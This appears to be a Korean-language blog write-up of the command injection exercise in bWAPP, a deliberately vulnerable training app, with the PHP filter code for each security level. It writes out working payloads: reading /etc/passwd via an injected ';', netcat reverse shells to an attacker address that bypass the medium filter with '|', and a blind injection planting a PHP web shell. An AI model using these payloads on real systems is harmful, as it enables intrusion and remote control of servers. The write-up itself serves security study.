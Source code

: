 ```yaml
---
layout: single
title: (bWAPP)Command Injection
categories: Web-vuln
tag: [os injection, bwapp, bee box, command injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직

```php
function commandi($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
        case "1" :
            $data = commandi_check_1($data);
            break;
        case "2" :
            $data = commandi_check_2($data);
            break;
        default :
            $data = no_check($data);
            break;
    }
    return $data;
}
```

## Level - Low

> Low Level 에서는 아무런 검증이 이루어지지 않아 해당 취약점이 손쉽게 악용될 수 있다.

![그림 1-1](/assets/image/bwapp/injection/image1.png)
-  DNS lookup 기능을 수행하는 입력창이 존재
- 활성화된 버튼을 클릭하게 되면, http://www.nsa.gov 도메인에 대한 DNS Lookup이 이루어져 매칭되는 IP를 알려준다.

![그림 1-2](/assets/image/bwapp/injection/image2.png)

- 해당 능에서는 시스템 함수를 사용한다는 것을 짐작할 수 있다.
- 이 때 적절한 입력 값 검증이 이루어지지 않는다면, 시스템의 메타문자들을 이용하여 앞 명령어에 이어서 추가 명령어를 실행할 경우 RCE 취약점으로 연계가 가능하다.

```shell
www.nsa.gov; cat /etc/passwdw 
```

- 위 코드와 같이 ;(명령어 구분자)를 통해 새로운 시스템 명령어를 보내 서버측에서 실행하도록 하였다.

![그림 1-3](/assets/image/bwapp/injection/image3.png)
- 출력된 사진과 같이 성공적으로 /etc/passwd 코드를 읽어들여 브라우저상에 출력되는 걸 확인했다.
- 위와 같이 OS Injection 취약점이 존재할 경우 시스템 명령어 주입이 가능한경우 공격자 서버에서 reverse connection이 가능하다

```shell
nc -lvp 5252
```

- 공격자 PC에서 nc를 통해 포트를 열어놓은 상태에서
- cat /etc/passwd 인자 대신 nc [공격자 ip] 5252(포트) -e /bin/bash 를 인자로 주어 연결에 성공한다.

```shell
www.nsa.gov; nc 172.20.120.196 5252 -e /bin/bash
```

![그림 1-4](/assets/image/bwapp/injection/image4.png)
## Level - Medium
> Level - Medium 에서는 &, ; 메타문자가 필터링 된 걸 알 수 있다.

```php
function commandi_check_1($data)
{
    
    $input = str_replace("&", "", $data);
    $input = str_replace(";", "", $input);
    
    return $input;
```

> &와 ; 메타문자가 필터링 되었어도, \| 메타문자를 통해 두번 째 인자가 시스템 명령어로 실행이 가능하다.


```shell
www.nsa.gov | nc 172.20.120.196 5252 -e /bin/bash
```

## Level - High
> Level - High 에서는 escapeshellcmd() 함수를 통해 적절하게 검증이 이루어지고 있다.

```shell
function commandi_check_2($data)
{
   
    return escapeshellcmd($data);
    
}
```
>escapeshellcmd() 함수는 PHP 함수로서, 외부 명령을 실행하기 전 입력된 문자열에 대해 이스케이프 처리를 수행한다. 이를 통해 메타문자를 이스케이프하여, 쉘 명령을 실행할 수 없도록 한다.

# Blind - Based
> Blind 기반의 OS 인젝션 파트도 필터링은 동일하게 적용되어 있으며, Blind 기반의 OS 인젝션에 대한 부분중 하나를 실습해보았다. (해당 실습에서 사용된 방식을 제외한 여러 Blind 기반의 공격기법은 다양하지만 redirect 를 통한 Blinde 기반의 공격을 실습해보았다.)

![그림 1-5](/assets/image/bwapp/injection/image5.png)
 - 사진에서 볼 수 있듯, 명령어에 대한 어떠한 결과값이 도출되지 않고 있다

 ```shell
 127.0.0.1;echo '<?php system($_GET['cmd']) ?>' > /var/www/bWAPP/shell.php
 ```

 - 입력값과 추가 시스템 명령어를 전달하였다.
- 실습대상인 bWAPP의 웹 디렉터리 내에 shell.php 파일을 생성하였고, 웹 페이지에서 해당 경로로 접근하면 웹쉘이 실행되는것을 확인했다.
![그림 1-6](/assets/image/bwapp/injection/image6.png)

